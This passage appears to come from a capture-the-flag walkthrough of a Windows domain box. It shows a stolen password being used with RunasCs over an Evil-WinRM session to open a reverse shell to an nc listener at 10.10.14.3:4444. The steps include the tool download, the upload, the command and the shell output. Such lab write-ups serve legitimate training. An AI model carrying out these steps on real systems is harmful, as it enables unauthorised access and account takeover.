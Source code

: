 We have the credentials of `ee.reed` but `evil-winrm` didn't work, let's try to switch user with [RunasCs](https://github.com/antonioCoco/RunasCs)

Prepare RunasCs:

```console
root@kali:~# curl -sLO https://github.com/antonioCoco/RunasCs/releases/download/v1.5/RunasCs.zip

root@kali:~# unzip RunasCs.zip
Archive:  RunasCs.zip
  inflating: RunasCs.exe
  inflating: RunasCs_net2.exe
```

Upload `RunasCs.exe` in the `bb.morgan` session:

```pwsh
*Evil-WinRM* PS C:\Users\bb.morgan> upload RunasCs.exe

Info: Uploading /root/RunasCs.exe to C:\Users\bb.morgan\RunasCs.exe

Data: 68948 bytes of 68948 bytes copied

Info: Upload successful!
```

Start a listener on Kali: `rlwrap nc -nlvp 4444`

Execute:

```pwsh
*Evil-WinRM* PS C:\Users\bb.morgan> .\RunasCs.exe ee.reed Pass1234 cmd -r 10.10.14.3:4444
[*] Warning: User profile directory for user ee.reed does not exists. Use --force-profile if you want to force the creation.
[*] Warning: The logon for user 'ee.reed' is limited. Use the flag combination --bypass-uac and --logon-type '8' to obtain a more privileged token.

[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-1996d826$\Default
[+] Async process 'C:\Windows\system32\cmd.exe' with pid 29688 created in background.
```

Reverse shell hooked as `ee.reed`:

```cmd
root@kali:~# rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.11.75] 53121
Microsoft Windows [Version 10.0.17763.7434]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
rustykey\ee.reed
```

### 4.2. Lateral movement to `mm.turner`
